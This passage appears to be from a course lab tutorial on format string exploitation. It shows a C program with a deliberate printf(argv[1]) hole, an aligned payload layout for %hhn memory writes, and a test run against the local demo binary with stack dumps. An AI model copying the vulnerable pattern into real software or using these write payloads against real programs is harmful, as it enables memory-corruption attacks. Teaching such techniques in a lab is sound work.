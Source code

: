``` {.c}

  printf("Wrong: ");
  printf(argv[1]);      //<------!!!!!
  printf("\n\n");

  printf("[*] test_val @ %p = %#08x\n", &test_val,test_val);


  print_stack("main",2);

  return;

}
```

Note, I also added the `print_stack()` function so we can see what's
going in a bit more detail. We will eventually remove it in the complete
attack.

Alignment
---------

Before doing all that dirty work, let's setup our format string to be
properly aligned so we won't have to do a bunch of recalculations. The
goal is to produce a format string of the right length, with all the
parts present, such that we can just focus on writing bytes.

``` {.example}
                                need four totoal formats two-pair 
      addr2   addr4            formats to write a four-byte address
       /\      /\   .-------------------------------'---------------------.
      |  |    |  | /                                                       \
  AAAABBBBCCCCDDDD%1$008x.%1$00x.%1$008x.%1$00x.%1$008x.%1$00x.%1$008x.%1$00x
  |  |    |  |    \            /           \
   \/      \/      '-----.----'             '--- the index will change based
  addr1   addr3         |                        on alignment and 00x will be hhn
                        |
                     one format to adjust number of output bytes in foramte
                     and one format to be replaced by hhn to do the writing
```

Let's give this format a warm up shot in our program:

``` {.example}
user@si485H-base:demo$ ./fmt_vuln AAAABBBBCCCCDDDD%1\$008x.%1\$00x.%1\$008x.%1\$00x.%1\$008x.%1$00x.%1\$008x.%1\$00x
Right: AAAABBBBCCCCDDDD%1$008x.%1$00x.%1$008x.%1$00x.%1$008x.%1-bash0x.%1$008x.%1$00x

Wrong: AAAABBBBCCCCDDDDbffff85b.bffff85b.bffff85b.bffff85b.bffff85b.%1-bash0x.bffff85b.bffff85b

[*] test_val @ 0x804a028 = 0x616161
--- STACK main ---
0xbffff6a4 <ebp+0xc>: bffff734
0xbffff6a0 <ebp+0x8>: 00000002
0xbffff69c <ebp+0x4>: b7e33a83
0xbffff698 <ebp>: 00000000
0xbffff694 <ebp-0x4>: 00000000
0xbffff690 <ebp-0x8>: 08048610
0xbffff68c <ebp-0xc>: b7fc4000
0xbffff688 <ebp-0x10>: 00616161
0xbffff684 <ebp-0x14>: 00000002
0xbffff680 <ebp-0x18>: 08048725
0xbffff67c <ebp-0x1c>: 08048603
0xbffff678 <ebp-0x20>: bffff698
```
